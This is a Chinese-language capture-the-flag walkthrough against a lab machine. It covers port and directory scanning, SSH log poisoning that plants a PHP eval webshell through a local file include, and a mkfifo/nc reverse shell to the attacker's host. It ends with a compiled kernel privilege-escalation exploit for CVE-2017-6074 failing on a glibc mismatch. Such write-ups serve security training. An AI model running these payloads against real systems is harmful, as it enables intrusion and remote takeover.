




## nmap扫描


```bash
nmap --min-rate 10000 -p- 10.9.75.7
```


```bash
sudo nmap -sC -sT -sV -O -p21,80,2211,8888 10.9.75.7
```


访问80端口


## 目录扫描

```bash
└─$ dirb http://10.9.75.7
```



发现敏感目录


发现了PHP探针

http://10.9.75.7/antibot_image/antibots/info.php


在`info.php`查看源代码后发现敏感信息泄露


危险函数`include`


尝试一下读取日志

ssh的登录日志（在这里也可以是我们发现的指纹apache的日志）`var/log/auth.log`

先用一个根本不存在的用户,测试是否能够成功写入到 `log`中：` ssh aaaaaaaaa@10.9.75.7 -p2211`。



## 漏洞利用

尝试通过ssh登录上传一句话木马

扫描出2211为SSH服务

```bash
ssh '<?php @eval($_POST['saury']);?>'@10.9.75.7  -p 2211
```



蚁剑连接


接下来，就可以想办法进行权限提升了

反弹shell先

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.75.6 4444 >/tmp/f
```





生成可交互式shell

```bash
python3 -c"import pty;pty.spawn( '/bin/bash')"
```

下载漏洞 探测脚本，进行利用`https://github.com/The-Z-Labs/linux-exploit-suggester`

下载到本地，然后使用`python`开启服务，让靶机下载


给下载的脚步赋予执行权限


下载这个利用脚本


```c
gcc 41458.c -o CVE-2017-6074
```


赋予执行权限，但是报了一个错误


```
strings /lib/x86_64-linux-gnu/libc.so.6 |grep GLIBC_2.3
```


可以看到靶机上确实没有 `GLIBC_2.34`的
